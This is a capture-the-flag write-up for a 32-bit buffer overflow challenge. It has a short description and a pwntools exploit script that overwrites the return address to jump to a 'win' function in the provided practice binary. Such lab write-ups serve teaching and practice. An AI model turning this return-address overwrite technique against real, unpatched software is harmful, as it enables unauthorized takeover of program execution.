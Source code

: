 # Baby Buffer Overflow - 32bit

## Description

<small>Author: @aenygma</small><br><br>Can you command this program to where it cannot go? <br/> To get the flag, you must somehow take control of its excecution. <br/> Is it even possible? <br/><br/> <b>Press the <code>Start</code> button on the top-right to begin this challenge.</b>


## Files

* [babybufov.c](<files/babybufov.c>)

* [babybufov](<files/babybufov>)

## Solution

This is a simple `ret2win` challenge. ASLR is disabled meaning it is simple to just grab the offset of the win function from the provided binary and add it to a `pwntools` script:

```python
from pwn import *
import sys

binary_path = './babybufov'
p = remote(sys.argv[1], sys.argv[2])
context.binary = binary_path

win_addr = p32(0x080491F5)

payload = b'A' * 28 + win_addr

out = p.recvuntil(b"Gimme some data!\n")
p.sendline(payload)
p.interactive()
```